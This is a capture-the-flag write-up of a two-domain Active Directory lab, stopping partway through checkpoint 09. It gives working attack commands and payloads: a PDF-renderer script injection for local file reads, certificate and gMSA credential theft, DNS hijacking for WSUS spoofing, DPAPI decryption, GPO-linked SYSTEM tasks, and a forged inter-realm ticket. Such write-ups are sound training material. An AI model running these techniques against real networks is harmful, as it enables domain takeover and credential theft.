On 18 September 2026 I had the luck to spend a day on an Active Directory CTF built by [mpgn](https://x.com/mpgn_x64), with a few friends. I had already been to two of his NetExec workshops, [LeHack 2025](../lehack2025-netexec-comprehensive/) and [BarbHack 2024](../barbhack-ctf-2024-netexec-workshop/), and this one had a different shape. Not a workshop with an instructor walking the room, but a timed run: gates open at 11:00 CEST, close at 23:00, twelve checkpoints unlocking one after the other, 500 points each.

The whole thing was dressed as [Lanfeust de Troy](https://en.wikipedia.org/wiki/Lanfeust), the Arleston and Tarquin comic series.

We finished at roughly 19:50. 12/12 on the main route, both optional detours, 6000 out of 6000.



Team was four of us under the name Sub5 warriors: [Retro](https://www.linkedin.com/in/william-pierson16/), [Hatsu](https://github.com/H4tsuM1ku), Mr.NOODLE and me. Flag values and live secrets are redacted below, since mpgn reuses these labs, but the commands and the mechanisms are all there.

---

## Table of contents

- [The setup](#the-setup)
- [The terrain](#the-terrain)
- [01 The Indiscreet Scribe](#01-the-indiscreet-scribe--port-fleury)
- [02 The leaked certificate (optional)](#02-the-leaked-certificate-optional)
- [03 The Steward's Storeroom](#03-the-stewards-storeroom--cité-de-xylos)
- [04 KANDHAR and the retired WSUS](#04-kandhar-and-the-retired-wsus)
- [05 The Sealed Missive (optional)](#05-the-sealed-missive-optional--phalompe)
- [06 The Secret of Hebus](#06-the-secret-of-hebus--feldspath)
- [07 The Paladin of Eckmul](#07-the-paladin-of-eckmul--glinin)
- [08 The Sage Ascendant](#08-the-sage-ascendant--eckmül)
- [09 The Traitor's Passage](#09-the-traitors-passage--sarlat)
- [10 Castel Or-Azur](#10-castel-or-azur)
- [11 The Castellan's Signet](#11-the-castellans-signet)
- [12 The Ivory of the Magohamoth](#12-the-ivory-of-the-magohamoth--darshan)
- [Thanks](#thanks)
- [Resources](#resources)

---

## The setup

We got access to the lab through a VPN. No internet from inside it, Windows and Linux both in scope, and the briefing said "very difficult", which for an mpgn lab is not marketing.

I spun a dedicated [Exegol](https://exegol.readthedocs.io/) container for the event with the VPN attached, so nothing leaked into my other work and the workspace was disposable at the end.

I worked out of [Exegol Studio](https://exegol.com/studio) all day. It is an integrated hacking environment, and it is not public yet: the Exegol team ships it in a few days. I will write proper deep dives once it is out, so treat what follows as a sneak peek at the two parts I leaned on hardest during this run.

**Atlas.** I used the Atlas feature to keep documentation at hand. mpgn maintains [NetExec](https://github.com/Pennyw0rth/NetExec), so his labs are, unsurprisingly, extremely nxc-shaped, and the reflex is to leave the wiki open in a browser tab. Atlas does something more useful: it ingests a corpus and graphs it. I pointed it at the [NetExec-Wiki](https://github.com/Pennyw0rth/NetExec-Wiki) repo and got 164 pages, 213 cross references and 13 aliases, indexed on import, sitting next to the built in ones ([The Hacker Recipes](https://www.thehacker.recipes/) for AD, ADCS, Kerberos and credential access, PayloadsAllTheThings for web).



The graph is what makes it worth the setup. Keyword search answers "which page mentions `--gmsa`". A graph answers "what does this page connect to", which is the question you actually have when you are holding a credential and looking for the next edge.



On a CTF like this one it pays off as cross referencing under time pressure. At checkpoint 04 I needed WSUS spoofing without ARP: the technique lives on one page, the constraint that kills it on another. Going from `wsus-spoofing` to `adidns-spoofing` is two documented hops instead of a hunch. Same story at checkpoint 12, from a note on CA access controls to the ESC7 issuance sequence. And it costs nothing in context until something actually reads it, and then only the extracts that were read.

**Kill chains.** The other feature is the reason every checkpoint below ends with a diagram. Studio records hosts, credentials, steps and loot as you go, then renders the result as a chain you can export. With four people on one lab, dropping a rendered chain in the team room beats typing five paragraphs into Discord, and nobody has to ask which account read which share.

Last thing before the gates opened, and this one is just a habit rather than anything the tooling does for you: I had my agent lay out a note structure so I would have somewhere clean to write during the run. One directory per checkpoint with `notes.md`, `poc/` and `loot/`, plus a global credentials table and a hosts inventory.





---

## The terrain

First sweep. One command, and the shape of the lab falls out:

```bash
nxc smb 10.15.10.0/24 -u "" -p ""
```

```
SMB  10.15.10.10  445  ECKMUL      [*] Windows Server 2022 Build 20348 x64 (name:ECKMUL)     (domain:troy.lab)    (signing:True) (NTLM:False)
SMB  10.15.10.11  445  GLININ      [*] Windows Server 2022 Build 20348 x64 (name:GLININ)     (domain:troy.lab)    (signing:True)
SMB  10.15.10.12  445  KANDHAR     [*] Windows Server 2022 Build 20348 x64 (name:KANDHAR)    (domain:troy.lab)    (signing:True)
SMB  10.15.10.20  445  DARSHANIDE  [*] Windows Server 2022 Build 20348 x64 (name:DARSHANIDE) (domain:darshan.lab) (signing:True) (NTLM:False)
```

Two domains from the first packet, and one detail that shaped the entire day: [`NTLM:False`](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic) on both DCs. No NTLM pass-the-hash against them, no [NTLM relay](https://www.thehacker.recipes/ad/movement/ntlm/relay) to LDAP, no capture-and-replay, so everything below is Kerberos or certificate based and carries `-k --use-kcache`. Note it is the DCs only: GLININ and KANDHAR spoke NTLM happily, which matters at checkpoint 04 where a client hands us a blob we can capture and have nowhere useful to send.

The other environmental quirk, since it prefixes half the commands in this post: the KDC was four hours ahead of my container, well outside the [five minute](https://web.mit.edu/kerberos/krb5-latest/doc/admin/conf_files/krb5_conf.html) skew window, so every fresh AS-REQ came back `KRB_AP_ERR_SKEW`. [libfaketime](https://github.com/wolfcw/libfaketime) shifts the clock for one process rather than the whole box, hence `faketime '+4 hours'` everywhere. It has to wrap a real binary, not a shell alias. And `darshan.lab` ran on real time, so the prefix has to come back **off** for anything targeting DARSHANIDE, which caused most of the afternoon's "it just stopped working" moments.

| Host | IP | Domain | Role |
|---|---|---|---|
| ECKMUL | 10.15.10.10 | troy.lab | DC, `TROY-CA`, IIS on :80 |
| GLININ | 10.15.10.11 | troy.lab | member server, custom IIS app on :443 |
| KANDHAR | 10.15.10.12 | troy.lab | member server |
| DARSHANIDE | 10.15.10.20 | darshan.lab | DC, `DARSHAN-CA` |
| ORAZUR | 10.15.10.32 | darshan.lab | Debian 12, SSH only |

ORAZUR only showed up much later, once we had a foothold in the second domain.

---

## 01 The Indiscreet Scribe / Port-Fleury

GLININ serves a themed IIS app on 443, a customs declaration form that renders your input to PDF.



A form that produces a PDF server side is worth ten minutes of anyone's time. The classic failure mode is documented under [server side XSS in dynamic PDF generation](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html): if user input lands unescaped in HTML that a headless browser renders, you get JavaScript execution in the renderer's context, and if that context is a `file://` origin you get local file read.

First probe, an out of band callback in each field in turn:

```html

```

```
198.51.100.80:8000  <-  10.15.10.11 - - "GET /HIT-goods HTTP/1.1"
```

Only `goods` fired. The other four were HTML encoded. So there is exactly one sink, which is a good sign in a CTF: it usually means the sink is the intended path.

Next question is whether the renderer runs from `file://`, since that decides whether this is an SSRF or an LFI:

```html
<script>
fetch("file:///C:/Windows/win.ini")
  .then(r => r.text())
  .then(t => { document.body.innerHTML = "<pre>" + t + "</pre>" })
</script>
```

`win.ini` came back in the PDF. That is an LFI, and it means the process was launched with [`--allow-file-access-from-files`](https://www.chromium.org/developers/how-tos/run-chromium-with-flags/). Worth knowing if you try this on an older engine: `fetch()` against `file://` only started working in Chromium 99, and before that you needed XHR even with the flag set.

`<iframe>` is better than `fetch` for exploration, because Chromium's native directory index renders inside the frame, so you get listing for free:

```html
<iframe src="file:///C:/IT/"    style="width:1000px;height:700px;border:0"></iframe>
<iframe src="file:///C:/build/" style="width:1000px;height:700px;border:0"></iframe>
```



`C:\build\` held `PdfHandler.cs`, the source of the handler. Reading your target's source mid-CTF is a rare treat, so I took my time with it:

```csharp
static string BuildDeclaration(HttpRequest req)
{
    string traveler  = Enc(req.Form["traveler"]);
    string purpose   = Enc(req.Form["purpose"]);
    string arrival   = Enc(req.Form["arrival"]);
    string travelers = Enc(req.Form["travelers"]);
    string goods     = req.Form["goods"] ?? "";   // <-- inserted raw
    ...
}
```

And the Edge invocation, confirming both halves of the primitive:

```csharp
string url = "file:///" + inHtml.Replace('\\', '/');
string args =
    "--headless=new --disable-gpu --no-sandbox --allow-file-access-from-files " +
    "--no-first-run --no-default-browser-check " +
    "--user-data-dir=\"" + ud + "\" --virtual-time-budget=8000 " +
    "--run-all-compositor-stages-before-draw " +
    "--print-to-pdf=\"" + outPdf + "\" \"" + url + "\"";
```

What I liked is everything the author got *right* around the one hole: the temp path is a server side GUID, so no user data reaches the msedge command line and there is no command injection. The app pool is low privilege. Outbound NTLM over UNC is refused at the host level, so the usual `` coercion is dead. One deliberate sink, everything else closed.

Listing the real web root found `C:\inetpub\portal\` rather than `wwwroot`, and the flag sat in `App_Data`:

```html
<iframe src="file:///C:/inetpub/portal/App_Data/flag01.txt"></iframe>
```



```
adctf{39da8346…}
```

Four people on a shared lab, so I exported the chain and dropped it in the team room rather than typing five paragraphs into Discord:


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 02 The leaked certificate (optional)

The same LFI reads `web.config`, and `web.config` in an app that writes to a file share is where credentials go to be forgotten.

```html
<script>
fetch("file:///C:/inetpub/portal/web.config")
  .then(r => r.text())
  .then(t => {
    var p = (t.match(/CertificatePassword"\s+value="([^"]+)"/) || [])[1] || "?";
    var c = (t.match(/ClientCertificate"\s+value="([^"]+)"/)   || [])[1] || "?";
    document.body.innerHTML =
      "<pre style='white-space:pre-wrap;word-break:break-all;font:11px monospace'>" +
      "PASSWORD = " + p + "&#10;&#10;----- PFX base64 (" + c.length + " chars) -----&#10;" + c +
      "</pre>";
  })
</script>
```

Regexing the two values out in the browser rather than dumping the whole file was worth it: the config is long, the PDF paginates, and I only needed two strings.



Three settings mattered:

```
ReportShare.Path                = \\GLININ\IT$
ReportShare.ClientCertificate   = <base64 PFX>
ReportShare.CertificatePassword = <redacted>
```

The PFX is a client authentication certificate for `cixi@troy.lab`. With NTLM disabled on the DC, a certificate is not a fallback, it is the only door. [PKINIT](https://www.thehacker.recipes/ad/movement/kerberos/pkinit) turns it into a TGT, and [Certipy](https://github.com/ly4k/Certipy) will also hand you the NT hash, a technique called [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash). The mechanics are worth a sentence: when pre-authentication was PKINIT, the KDC includes a `PAC_CREDENTIAL_INFO` structure holding the NT hash, encrypted with the AS-REP key derived from the PKINIT key exchange. Certipy uses a user-to-user request to get the KDC to hand that PAC back, then decrypts it with the key it already has:

```bash
base64 -d reportshare.b64 > reportshare.pfx

certipy auth -pfx reportshare.pfx -password '<redacted>' \
  -dc-ip 10.15.10.10 -username cixi -domain troy.lab
```

```
[*] Got TGT
[*] Saved credential cache to 'cixi.ccache'
[*] Got hash for 'cixi@troy.lab': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

Then the oldest trick in AD enumeration, reading the `description` attribute of every user:

```bash
export KRB5CCNAME=cixi.ccache
faketime '+4 hours' nxc ldap 10.15.10.10 -u cixi -k --use-kcache -d troy.lab --users
```

```
cixi       2026-09-17 20:35:04  0  adctf{86f77db4…}
lanfeust   2026-09-17 20:35:12  0  forgeron - compte de maintenance signee (non-DA)
nicolede   2026-09-17 20:35:20  0  Manages the Council-of-Sages site at ECKMUL
cian       2026-09-17 20:35:28  0  fille de Nicolede
hebus      2026-09-17 20:35:36  0  le troll
```

The flag was in `cixi`'s own description. The other three descriptions were the roadmap for the next six hours and I did not realise it at the time. `lanfeust` is "signed maintenance account, non-DA", which is checkpoint 07. `nicolede` "manages the Council-of-Sages site", which is checkpoint 08, and note that "site" turns out to mean an AD site, not a website.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


We submitted this one as checkpoint 03 at first and got it rejected, then realised it was the optional detour. Worth reading the board carefully when you are moving fast.

---

## 03 The Steward's Storeroom / Cité de Xylos

`web.config` already told us the storeroom: `ReportShare.Path = \\GLININ\IT$`. And `cixi` can read it.

```bash
nxc smb 10.15.10.11 -u cixi -k --use-kcache -d troy.lab --shares
nxc smb 10.15.10.11 -u cixi -k --use-kcache -d troy.lab \
  -M spider_plus -o DOWNLOAD_FLAG=True SHARE=IT$ OUTPUT_FOLDER=/workspace/loot/it
```



[`spider_plus`](https://www.netexec.wiki/smb-protocol/spidering-shares) with `DOWNLOAD_FLAG=True` is the right module here, because the flag is the least interesting file in the share:

| File | Size | What it was |
|---|---|---|
| `flag03.txt` | 40 B | the flag |
| `dispatch.txt` | 277 B | `wsus.troy.lab` was removed from DNS, KANDHAR still calls it every 2 minutes |
| `backups/missive.txt` | 126 B | "Bound to Kandhar's stones: it opens nowhere else" |
| `backups/sites.ldf.enc` | 1.87 KB | encrypted blob |
| `scripts/maintenance.ps1` | 291 B | scheduled task payload, scripts must be signed |
| `scripts/logs/TroyMaintenance.log` | 73 KB | 437 runs, every 2 minutes, as `TROY\lanfeust` |

Four of the next five checkpoints are seeded in that table. `dispatch.txt` is 04. `missive.txt` plus `sites.ldf.enc` is 05. `maintenance.ps1` plus the log is 07.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*




At this point I also ran [BloodHound](https://github.com/SpecterOps/BloodHound) collection as `cixi`, and after filtering out default ACLs there were exactly three interesting edges in the whole domain:

```
lanfeust  --GenericWrite-->     nicolede
nicolede  --GenericWrite-->     GPO "Council-of-Sages Policy"
KANDHAR$  --ReadGMSAPassword--> gmsa-hebus$
```

Read bottom to top and that is the entire rest of the troy.lab route. You need KANDHAR, KANDHAR gives you the gMSA, the gMSA gives you code signing, code signing gives you `lanfeust`, `lanfeust` gives you `nicolede`, `nicolede` gives you the GPO. Every checkpoint from 04 to 08 is one link in that chain.

Certipy confirmed the ADCS side of it:

```bash
certipy find -u cixi -k -no-pass -target eckmul.troy.lab -dc-ip 10.15.10.10 -stdout
```

| Template | Enrollment rights |
|---|---|
| `TroyReportSvc` | `TROY.LAB\cixi` |
| `TroyTLS` | Domain Computers |
| `TroyCodeSigning` | `TROY.LAB\gmsa-hebus` |
| `TroyWebSign` | Domain Admins |

Web enrollment disabled, so no [ESC8](https://www.thehacker.recipes/ad/movement/adcs/web-endpoints). `User Specified SAN: Disabled` on the CA, which is the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag, so no ESC6. And none of the fifteen enabled [templates](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates) combined an enrollee-supplied subject with a client authentication EKU, so no ESC1 either. The CA is here as infrastructure, not as a vulnerability, which is a nice change.

---

## 04 KANDHAR and the retired WSUS

This is the one that ate my afternoon. The hint came from `dispatch.txt`:

> The provisioning oracle at `wsus.troy.lab` was retired. Its name was struck from the rolls. It answers no more. But KANDHAR was never told: it still hails `wsus.troy.lab` every 2 minutes, awaiting orders.

A WSUS client that trusts a hostname with no A record behind it. [WSUS spoofing](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/wsus-spoofing) is a known family: a WSUS server tells its clients to run a Microsoft signed binary with attacker chosen arguments, so if you control the server you get SYSTEM on the client. [GoSecure's two part writeup](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/) and [pywsus](https://github.com/GoSecure/pywsus) are the canonical references.

The published technique assumes ARP poisoning on the same L2 segment. We were behind a VPN, so there is no L2. The substitute is DNS, and specifically [ADIDNS](https://www.netspi.com/blog/technical-blog/network-pentesting/exploiting-adidns/): in a default AD integrated zone, Authenticated Users hold "create all child objects" and get full control over what they create, so any domain user can add a `dnsNode` over LDAP. The record was deleted, which means the name is free, which means we can take it. Robertson's [follow-up post](https://www.netspi.com/blog/technical-blog/network-pentesting/adidns-revisited/) covers the permission model in more detail.

```bash
dig +short wsus.troy.lab @10.15.10.10
# NXDOMAIN

bloodyAD --host eckmul.troy.lab --dc-ip 10.15.10.10 -d troy.lab -u cixi -k \
  add dnsRecord wsus 198.51.100.80

dig +short wsus.troy.lab @10.15.10.10
# 198.51.100.80
```

Two minutes later, KANDHAR called:

```
10.15.10.12 -> 198.51.100.80:8531  TLS ClientHello, SNI=wsus.troy.lab
```

Port 8531 is WSUS over HTTPS. A self signed certificate was refused immediately. The client wants a certificate chaining to `TROY-CA`, which we cannot ask for as `cixi` because the TLS template is enrollable by Domain Computers.

So we become a domain computer. The machine account quota was the [default 10](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/default-workstation-numbers-join-domain):

```bash
addcomputer.py -computer-name WSUSSPOOF -computer-pass '<redacted>' \
  -dc-ip 10.15.10.10 'troy.lab/cixi' -k -no-pass

certipy req -u 'WSUSSPOOF$' -k -no-pass -target eckmul.troy.lab -dc-ip 10.15.10.10 \
  -ca TROY-CA -template TroyTLS -dns wsus.troy.lab
```

That produced `CN=wsus.troy.lab` signed by `TROY-CA`, and the client stopped complaining. Chain fully built: DNS ours, TLS ours, rogue WSUS answering.

And then it stalled. The client walked `GetConfig`, `GetCookie`, `SyncUpdates` and `ReportEventBatch` cleanly, all [MS-WUSP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wusp/a5c9d6d1-e24a-4982-add3-16cfc3f35b53) methods, and never issued `GetExtendedUpdateInfo` or fetched the payload. I forced `AutoDownload` to 1 in pywsus and got nothing. Hours here.

Three things we burned time on, so you do not have to:

- **Relaying the NTLM the client emits.** KANDHAR does present NTLM to the rogue server. But the only relay target worth having is the DC, and the DC has NTLM off, with SMB signing enforced on the members. Dead on arrival. Confirmed the hard way with `ntlmrelayx -t ldaps://10.15.10.10 --dump-gmsa`.
- **Offline gMSA recovery.** [GoldenGMSA](https://www.semperis.com/blog/golden-gmsa-attack/) computes a gMSA password offline from the [KDS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gkdi/) root key. `msDS-ManagedPasswordID` was readable, `msKds-RootKeyData` was not, and without the root key the technique does not apply.
- **The blob that looked wrong and was not.** We also had a [`MSDS-MANAGEDPASSWORD_BLOB`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e), parsed the `CurrentPassword` field out of it and computed an MD4. It would not authenticate, so we wrote it off as garbage. It was not garbage: that hash turned out to be byte for byte the real NT hash we later recovered the legitimate way. What actually blocked us is that the account is AES only, so RC4 came back `KDC_ERR_ETYPE_NOSUPP`, and our AES salt derivations were wrong. A correct secret with no usable etype looks exactly like a wrong secret, which is a good thing to have been burned by once.
- **Kerberoasting the gMSA.** `gmsa-hebus$` has an SPN (`HTTP/kandhar.troy.lab`) and roasts fine, which feels like progress for about four seconds until you remember the managed password is 256 bytes of derived key material and will never crack. Note the `$krb5tgs$18$` in the screenshot below: etype 18, AES256, same AES only account.



The chain that actually worked, and credit here goes to Retro who spotted that our pywsus was simply too old:

```
ADIDNS takeover of wsus.troy.lab
  -> rogue WSUS over HTTPS with a TROY-CA certificate
  -> ProcDump (Microsoft signed, so WDAC clean) executed as SYSTEM on KANDHAR
  -> read the gmsa-hebus$ password from the machine that is allowed to read it
  -> Kerberos TGT for gmsa-hebus$
  -> add the gMSA to the local admins temporarily
  -> SMB admin on KANDHAR -> C:\flags\flag04.txt
```

The 2022 era pywsus sends a single generic update with no OS fingerprinting; current WSUS clients evaluate applicability and silently decline. [SharpWSUS](https://www.lrqa.com/en/cyber-labs/introducing-sharpwsus/) is worth reading on that approval and applicability problem. Once it was fixed, the client fetched and ran the payload, as SYSTEM, because that is the context `wuauserv` installs updates in.

Note the shortcut taken: BloodHound said `KANDHAR$` is the only principal with `ReadGMSAPassword` on `gmsa-hebus$`, so I spent hours trying to *become* `KANDHAR$`. Once you have SYSTEM on KANDHAR you are already executing as `KANDHAR$`, so you just read the gMSA and skip the step entirely. I had the graph the right way up and walked it the wrong direction.

One coordination lesson from this checkpoint, which is worth more than the technique. Two of us wrote the same `wsus` record with different IPs. ADIDNS holds one A record per name unless you explicitly allow multiple, so the last writer wins and silently steals the other person's client. The symptoms look exactly like caching ("it takes a while to update", "it's cached on your side"), the record reappears after you delete it, and the victim host bounces between two attackers. On a shared lab, one person owns a given DNS name, full stop, and everyone else terminates TLS downstream.

We also deliberately did not create a `*` wildcard record. It works, and it would have hijacked every unresolved name in `troy.lab` including our teammates' traffic.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 05 The Sealed Missive (optional) / Phalompe

`sites.ldf.enc` from `IT$`, with `missive.txt` saying "bound to Kandhar's stones: it opens nowhere else. To read it, go to Kandhar".

That is a description of a [DPAPI machine scope blob](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets). Machine scope means the key material lives in LSA on that specific host, which is why the file is portable and useless. With admin on KANDHAR we can take the key:

```bash
faketime '+4 hours' secretsdump.py -k -no-pass \
  -dc-ip 10.15.10.10 -target-ip 10.15.10.12 \
  -outputfile /workspace/loot/kandhar-dump 'gmsa-hebus$@KANDHAR.troy.lab'
```



The value we need is `DPAPI_SYSTEM`. Its structure is a version header followed by a 20 byte machine key and then a 20 byte user key, so the machine key is the first of the two, and secretsdump prints it as `dpapi_machinekey`. Then pull the SYSTEM masterkeys off disk:

```bash
printf 'use C$\ncd Windows\\System32\\Microsoft\\Protect\\S-1-5-18\nls\n' > /tmp/mk.txt
faketime '+4 hours' smbclient.py -k -no-pass -dc-ip 10.15.10.10 -target-ip 10.15.10.12 \
  -inputfile /tmp/mk.txt 'gmsa-hebus$@KANDHAR.troy.lab'
```



The blob header names the masterkey GUID, so there is no guessing. One detail cost me enough time that I ended up writing a small script rather than fighting a one liner: impacket will happily try the raw `DPAPI_SYSTEM` halves as the pre-key, but what worked for this blob was the SID scoped derivation, `HMAC-SHA1(machineKey, utf16le("S-1-5-18\0"))`, fed into the masterkey. Pick the wrong one and you get a clean looking failure with no hint. [harmj0y's DPAPI guide](https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/) is still the clearest walkthrough of the masterkey and blob relationship, and [dploot](https://github.com/zblurx/dploot) does machine scope DPAPI from Linux if you would rather not hand roll it.

```bash
python3 poc/decrypt_sites.py <masterkey_d6d47fe4-…> sites.ldf.enc <dpapi_machinekey> S-1-5-18
```

Out came an LDIF export of `CN=Sites,CN=Configuration,DC=troy,DC=lab`, and the flag was sitting in the `description` of a site called **Council-of-Sages**.

Which is when `nicolede`'s description finally clicked. "Manages the Council-of-Sages site at ECKMUL" is not a web server. It is an **AD site**. I had been poking at the IIS instance on the DC's port 80 for half an hour looking for a CMS.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 06 The Secret of Hebus / Feldspath

Short one. `gmsa-hebus$` was obtained in 04, and the challenge name says which share to look at.

```bash
export KRB5CCNAME=/workspace/'gmsa-hebus$.ccache' KRB5_CONFIG=/workspace/recon/krb5.conf
faketime '+4 hours' nxc smb 10.15.10.10 -u 'gmsa-hebus$' -k --use-kcache -d troy.lab \
  -M spider_plus -o DOWNLOAD_FLAG=True SHARE=HEBUS$ OUTPUT_FOLDER=/workspace/loot/hebus
```



The output is a map of the next two hours:

```
HEBUS$      READ
LANFEUST$   (no permission)
NETLOGON    READ
SYSVOL      READ
```

`LANFEUST$` exists on the same DC and is not readable by the gMSA. That is checkpoint 07: we do not need to break the ACL, we need to be `lanfeust`.

Same identity elsewhere:

```
GLININ  (.11)  IT$        READ, WRITE     <-- write access to the signed script folder
KANDHAR (.12)  ADMIN$/C$  READ, WRITE
```

That `WRITE` on `IT$` is the other half of 07.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 07 The Paladin of Eckmul / Glinin

Putting three facts together:

1. `TroyMaintenance` on GLININ runs `\\GLININ\IT$\scripts\maintenance.ps1` as `TROY\lanfeust` every 2 minutes. The log has 437 entries, so it definitely runs.
2. `gmsa-hebus$` has WRITE on `IT$`.
3. The script header says scripts in this folder must be signed with a TROY-CA chain, and `C:\wdac\wdac.xml` is a [WDAC](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/appcontrol) policy with UMCI enabled that allows Microsoft signers plus one custom signer rooted at TROY-CA.

So the task will run whatever is in that file, as long as it carries an Authenticode signature chaining to TROY-CA. And `TroyCodeSigning` is enrollable by exactly one principal: `gmsa-hebus`.

```bash
faketime '+4 hours' certipy req -u 'gmsa-hebus$' -k -no-pass \
  -target eckmul.troy.lab -dc-ip 10.15.10.10 \
  -ca TROY-CA -template TroyCodeSigning -subject 'CN=gmsa-hebus'
```



The payload is deliberately boring. `lanfeust` can read `LANFEUST$` and we cannot, so the script reads it for us and writes the result somewhere we already have access to:

```powershell
$ErrorActionPreference = "Stop"
$source      = "\\eckmul.troy.lab\LANFEUST$\flag07.txt"
$destination = Join-Path $PSScriptRoot "logs\flag07-result.txt"
$value = (Get-Content -LiteralPath $source -Raw).Trim()
Set-Content -LiteralPath $destination -Value "$source`n$value" -Encoding Ascii
# followed by the Authenticode signature block
```

Drop it, wait two minutes, read the output out of the share we can already read:

```bash
faketime '+4 hours' smbclient.py -k -no-pass -dc-ip 10.15.10.10 -target-ip 10.15.10.11 \
  -inputfile <(printf 'use IT$\ncd scripts\\logs\nget flag07-result.txt\n') \
  'gmsa-hebus$@GLININ.troy.lab'
```

One trap: signing a `.ps1` from Linux. PowerShell does not use a PE structure, it carries a [comment based signature block](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_signing), and the [`osslsigncode`](https://github.com/mtrojnar/osslsigncode) in my container choked on it, producing a malformed PEM. Check your version before assuming the same: upstream added script signing in v2.8, but distro packages lag badly. `Set-AuthenticodeSignature` on a Windows box is the sane path. A teammate had a signed script already, so we used that rather than losing another thirty minutes to the tooling.

It is worth being clear about what happened here, because WDAC did its job perfectly. It enforced exactly the policy it was given. The policy trusted a signer, and the right to obtain that signer's certificate had been handed to a service account whose password was recoverable. Application control is only as strong as enrollment control on the signing template.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 08 The Sage Ascendant / Eckmül

BloodHound's remaining two edges, cashed in.

```
lanfeust --GenericWrite--> nicolede --GenericWrite--> GPO "Council-of-Sages Policy"
```

`GenericWrite` on a user is a [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) primitive: write [`msDS-KeyCredentialLink`](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials), then PKINIT with the key you just added. [pywhisker](https://github.com/ShutdownRepo/pywhisker) does the write, Certipy does the auth, and the output is a `nicolede.ccache`.

As `nicolede` we then had two write rights, and the second one is the interesting half:

- `WriteProperty` on the GPO `Council-of-Sages Policy` (mask `0x20028`)
- `WriteProperty` on the **gPLink** of the AD site `Council-of-Sages` (attribute GUID [`f30e3bbe-9ff0-11d1-b603-0000f80367c1`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-gplink) in the site's DACL)

Writing a GPO is useless if the GPO is linked to nothing, and this one was not linked. Being able to write a gPLink means you choose what the GPO applies to. And ECKMUL, the domain controller, is a server in that site. Site linked GPOs apply to every machine in the site, so the link is the escalation, not the GPO edit. [A Red Teamer's Guide to GPOs and OUs](https://wald0.com/?p=179) is still the clearest explanation of why.

Step one, an immediate scheduled task running as SYSTEM, via [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse):

```bash
export KRB5CCNAME=nicolede.ccache KRB5_CONFIG=/workspace/recon/krb5.conf
faketime '+4 hours' /opt/tools/pyGPOAbuse/venv/bin/python /opt/tools/pyGPOAbuse/pygpoabuse.py \
  -gpo-id 240CBA0F-CF83-46C5-98F5-8513DCE9A0B1 \
  -powershell -command "$(cat poc/pl.txt)" \
  -k -dc-ip eckmul.troy.lab -ccache nicolede.ccache -f troy.lab/nicolede
```

Pass the **FQDN** to `-dc-ip`, not the IP. pyGPOAbuse builds an `SMBConnection` and does a Kerberos login, and an IP address has no `cifs/` SPN, so you get an opaque "SMB connection error" that looks like a network problem and is not.

Step two, link the GPO to the site:

```bash
faketime '+4 hours' bloodyAD --host eckmul.troy.lab --dc-ip 10.15.10.10 -d troy.lab -u nicolede -k \
  set object "CN=Council-of-Sages,CN=Sites,CN=Configuration,DC=troy,DC=lab" gPLink \
  -v "[LDAP://cn={240CBA0F-CF83-46C5-98F5-8513DCE9A0B1},cn=policies,cn=system,dc=troy,dc=lab;0]"
```

Then wait out the refresh cycle. Roughly five minutes later the DC ran our task as SYSTEM and posted `C:\flags\flag08.txt` to our collector. One nuance in our favour: sites are processed first in [LSDOU](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-policy/group-policy-modeling-results), so a conflicting setting in the Default Domain Controllers Policy would have overridden ours. An immediate scheduled task conflicts with nothing, so it went straight through.

The same task also listed the DC's filesystem, which surfaced `C:\setup` and `C:\shares`, two non standard directories that mattered later. Whenever you get SYSTEM on a DC in a CTF, spend one execution on reconnaissance before you spend it on the flag.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 09 The Traitor's Passage / Sarlat

`darshan.lab` had been visible since the first sweep and ignored for six hours. The relationship is one way: `darshan.lab` trusts `troy.lab`, so troy principals can be presented to darshan and not the reverse. (I am deliberately not saying "inbound" or "outbound", because which one it is depends on whose side you are standing on, and every tool labels it differently.)

The move is a [forged inter-realm TGT](https://www.thehacker.recipes/ad/movement/trusts): with the trust account's key you mint a `TROY$@DARSHAN.LAB` ticket and present it as a foreign principal. Dirk-jan Mollema's [post on forest trusts and SID filtering](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/) is the reference for why this works and what would have stopped it. The team supplied the ticket from the trust object replication.

Note that `darshan.lab` runs on real time, so this is one of the commands where the `faketime` prefix has to come off:

```bash
export KRB5CCNAME=/workspace/loot/darshan-trust.ccache KRB5_CONFIG=/workspace/recon/krb5.conf
klist
# Default principal: TROY$@DARSHAN.LAB
# Service: krbtgt/DARSHAN.LAB@DARSHAN.LAB

nxc smb 10.15.10.20 -u 'TROY$' -k --use-kcache -d darshan.lab --shares
